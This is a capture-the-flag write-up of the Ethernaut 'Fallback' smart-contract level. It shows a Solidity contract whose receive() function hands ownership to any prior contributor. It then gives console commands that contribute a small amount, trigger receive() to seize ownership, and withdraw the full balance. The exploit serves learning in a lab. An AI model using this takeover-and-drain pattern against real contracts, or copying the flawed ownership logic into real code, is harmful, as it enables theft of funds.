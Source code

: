 # Fallback
>You will beat this level if
>   1. you claim ownership of the contract
>   2. you reduce its balance to 0

>Things that might help
>   How to send ether when interacting with an ABI
>   How to send ether outside of the ABI
>   Converting to and from wei/ether units (see help() command)
>   Fallback methods

``` solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Fallback {

  mapping(address => uint) public contributions;
  address public owner;

  constructor() {
    owner = msg.sender;
    contributions[msg.sender] = 1000 * (1 ether);
  }

  modifier onlyOwner {
        require(
            msg.sender == owner,
            "caller is not the owner"
        );
        _;
    }

  function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }

  function getContribution() public view returns (uint) {
    return contributions[msg.sender];
  }

  function withdraw() public onlyOwner {
    payable(owner).transfer(address(this).balance);
  }

  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
}

```

For this challenge, first, we are required to claim the ownership of this contract. Looking at the solidity code given to us, we can see that the code `owner = msg.sender` will be executed in two ways. 
One way is to transfer ether more than the contributions of the owner but that is not possible! (since owner's contribution is fairly large). What we will do is first contribute a small amount of ether and then send ether to this contract so that recieve function gets called and we can claim the ownership.

The receive function is similar to the fallback function. It gets called whenever the contract receives some ether. It is designed specifically to handle incoming ether without the need for a data call.
Executing the approach...

```
>await contract.contribute({value : 4})
```
```
>await contract.sendTransaction({value : 1})
```
```
>await contract.owner()
<'0x532600377959B703AA4AC2c468DeDe8FAA40B576'
```
and so the first step is done! Now don't forget to withdraw ether from this contract.
```
>await contract.withdraw()
```
```
>await getBalance("0xf246A7CD5d85F553ee44E3271Ad8bd1f77434e95")
<'0'
```
Viola! We can now submit the instance.

